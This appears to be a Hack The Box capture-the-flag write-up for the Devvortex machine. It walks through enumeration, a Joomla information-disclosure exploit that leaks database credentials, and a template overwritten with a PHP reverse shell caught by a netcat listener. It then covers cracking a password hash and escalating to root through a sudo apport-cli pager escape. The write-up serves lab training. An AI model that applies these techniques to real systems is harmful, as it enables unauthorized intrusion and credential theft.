

# HTB - Devvortex

#### Ip: 10.10.11.242
#### Name: Devvortex
#### Rating: Easy

----------------------------------------------------------------------



### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-06 12:44 CST
Warning: 10.10.11.242 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.242
Host is up (0.075s latency).
Not shown: 65463 closed tcp ports (reset), 70 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```
Lets add http://devvortex.htb to `/etc/hosts`

Checking out the site we find a page offering developer services:

devvortex_site.png

After not finding much during directory fuzzing, I scanned for vhosts and found dev.devvortex.htb, which I also added to `/etc/hosts`. 

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" --hh 154
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.242/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                     
=====================================================================

000000022:   502        7 L      12 W       166 Ch      "dev" 
```

Looking for directories we find an /administrator directory:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ dirsearch -u http://dev.devvortex.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/ryan/HTB/Devvortex/reports/http_dev.devvortex.htb/_24-03-06_13-27-57.txt

Target: http://dev.devvortex.htb/

[13:27:57] Starting: 
[13:28:09] 403 -  564B  - /%2e%2e;/test
[13:28:17] 403 -  564B  - /admin/.config
[13:28:21] 301 -  178B  - /administrator  ->  http://dev.devvortex.htb/administrator/
```

Heading to this directory we see the site is running Joomla:

devvortex_admin.png

Looking for Joola exploit I find this information disclosure vulnerability: https://github.com/Acceis/exploit-CVE-2023-23752

### Exploitation

I can run the script and retrieve the usernames logan and lewis as well as a password for lewis:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ ruby joomla_disclosure.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

I am able to use Lewis' credentials to login to the Joomla site.

devvortex_login.png

Because we have administrator access, we should have an easy time getting remote code execution from here. Lets go to System > Templates > Administrator Templates > index.php and overwrite the file with PentestMonkey's php-reverse-shell.php. Now when we refresh the page and navigate back to the site, we catch a shell as www-data:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ nc -lnvp 443                 
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.242] 41584
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 17:00:23 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
devvortex
```

Trying to grab the flag in Logan's home folder we get a permission denied:

```
www-data@devvortex:/home/logan$ cat user.txt
cat: user.txt: Permission denied
```

However the credentials we discovered earlier were actually to the joomla mysql DB, so lets login on the target and see if we can discover any other credentials:

devvortex_logan_hash.png

Nice, looks like we've found a hash for user logan. Lets try cracking it:

devvortex_john.png

John was able to crack the bcrypt hash for us: `logan:tequieromucho`

We can now `su logan` and grab the user.txt flag:

```
www-data@devvortex:/home/logan$ su logan
Password: 
logan@devvortex:~$ whoami
logan
```

devvortex_user.png

### Privilege Escalation

Running `sudo -l` to see if I can run anyhting with elevated permissions I find:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

This is interesting. Looking for exploits I find if the program is using the `less` command, I can drop into a root shell.

First we run:
```
sudo /usr/bin/apport-cli --file-bug
```

Then select 1, and then 2. You will be prompted to input any key.

Next we can select `V` which will open up a terminal as root. from there we can declare `!/bin/bash` and drop into a root shell.

We can now grab the final flag:

devvortext_root.png

Thanks for following along!

-Ryan

-------------------------------------------
